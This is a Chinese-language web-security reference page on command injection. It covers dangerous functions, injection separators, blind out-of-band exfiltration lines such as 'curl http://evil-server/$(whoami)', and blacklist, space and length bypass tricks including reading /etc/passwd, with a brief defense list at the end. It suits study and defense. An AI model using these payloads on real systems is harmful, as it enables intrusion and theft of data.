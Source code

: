 # 命令注入

#### 4.5.1. 简介 <a href="#4.5.1.-jian-jie" id="4.5.1.-jian-jie"></a>

命令注入通常因为指Web应用在服务器上拼接系统命令而造成的漏洞。该类漏洞通常出现在调用外部程序完成一些功能的情景下。比如一些Web管理界面的配置主机名/IP/掩码/网关、查看系统信息以及关闭重启等功能，或者一些站点提供如ping、nslookup、提供发送邮件、转换图片等功能都可能出现该类漏洞。

#### 4.5.2. 常见危险函数 <a href="#4.5.2.-chang-jian-wei-xian-han-shu" id="4.5.2.-chang-jian-wei-xian-han-shu"></a>

**4.5.2.1. PHP**

* system
* exec
* passthru
* shell\_exec
* popen
* proc\_open

**4.5.2.2. Python**

* system
* popen
* subprocess.call
* spawn

**4.5.2.3. Java**

* java.lang.Runtime.getRuntime().exec(command)

#### 4.5.3. 常见注入方式 <a href="#4.5.3.-chang-jian-zhu-ru-fang-shi" id="4.5.3.-chang-jian-zhu-ru-fang-shi"></a>

* 分号分割
* `||` `&&` `&` 分割
* `|` 管道符
* &#x20;`%d0%a0` 换行
* 反引号解析
* `$()` 替换

#### 4.5.4. 无回显技巧 <a href="#4.5.4.-wu-hui-xian-ji-qiao" id="4.5.4.-wu-hui-xian-ji-qiao"></a>

* bash反弹shell
* DNS带外数据
* ​
  * http带外`curl http://evil-server/$(whoami)``wget http://evil-server/$(whoami)`
* 无带外时利用 `sleep` 或其他逻辑构造布尔条件

#### 4.5.5. 常见绕过方式 <a href="#4.5.5.-chang-jian-rao-guo-fang-shi" id="4.5.5.-chang-jian-rao-guo-fang-shi"></a>

**4.5.5.1. 空格绕过**

* `<` 符号 `cat<123`
* / `%09`
* `${IFS}` 其中{}用来截断，比如cat$IFS2会被认为IFS2是变量名。另外，在后面加个$可以起到截断的作用，一般用$9，因为$9是当前系统shell进程的第九个参数的持有者，它始终为空字符串

**4.5.5.2. 黑名单绕过**

* `a=l;b=s;$a$b`
* base64 `echo "bHM=" | base64 -d`
* `/?in/?s` => `/bin/ls`
* 连接符 `cat /etc/pass'w'd`
* 未定义的初始化变量 `cat$x /etc/passwd`

**4.5.5.3. 长度限制绕过**

\>wget\\>foo.\\>comls -t>ash a上面的方法为通过命令行重定向写入命令，接着通过ls按时间排序把命令写入文件，最后执行 直接在Linux终端下执行的话,创建文件需要在重定向符号之前添加命令 这里可以使用一些诸如w,\[之类的短命令，(使用ls /usr/bin/?查看) 如果不添加命令，需要Ctrl+D才能结束，这样就等于标准输入流的重定向 而在php中 , 使用 shell\_exec 等执行系统命令的函数的时候 , 是不存在标准输入流的，所以可以直接创建文件

#### 4.5.6. 常用符号 <a href="#4.5.6.-chang-yong-fu-hao" id="4.5.6.-chang-yong-fu-hao"></a>

**4.5.6.1. 命令分隔符**

* `%0a` / `%0d` / /
* `;`
* `&` / `&&`

**4.5.6.2. 通配符**

* `*` 0到无穷个任意字符
* `?` 一个任意字符 "\[ ]" 一个在括号内的字符，e.g. `[abcd]` "\[ - ]" 在编码顺序内的所有字符 "\[^ ]" 一个不在括号内的字符

#### 4.5.7. 防御 <a href="#4.5.7.-fang-yu" id="4.5.7.-fang-yu"></a>

* 不使用时禁用相应函数
* 尽量不要执行外部的应用程序或命令
* 做输入的格式检查
* ​
  * 转义命令中的所有shell元字符shell元字符包括 `#&;`,|\*?\~<>^()\[]{}
